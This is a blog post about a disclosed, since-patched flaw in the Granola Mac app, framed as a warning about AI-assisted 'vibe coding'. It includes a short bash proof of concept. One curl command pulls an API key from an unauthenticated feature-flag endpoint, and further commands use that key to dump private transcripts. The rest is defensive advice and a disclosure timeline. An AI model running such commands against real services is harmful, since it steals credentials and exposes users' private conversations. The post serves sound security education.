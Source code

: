 ```yaml
---
author: Jonathan Haas
pubDate: '2025-05-12'
title: 'When Vibe Coding Goes Wrong: Security Lessons from Granola'
description: 'When Vibe Coding Goes Wrong: Security Lessons from Granola: Vibe coding is having a moment. And honestly.'
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - ai-development
  - product-security
  - electron-apps
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
1. **Read** through the JavaScript.
1. **Find** API endpoints embedded directly in the client.
1. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
1. **Extract** an AssemblyAI API key from the feature flags.
1. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

````bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly*key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript*ids
cat transcript*ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```text

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:
Prompt, ship, *hope it works*.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")

You’re not just moving fast.
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.
Helpful? Sometimes.
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.
Use proper backend proxying.
Scope keys narrowly.
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.
But ship safe.

Granola’s mistake is a flashing neon sign:
🚨 *The vibes are not enough._ 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
````

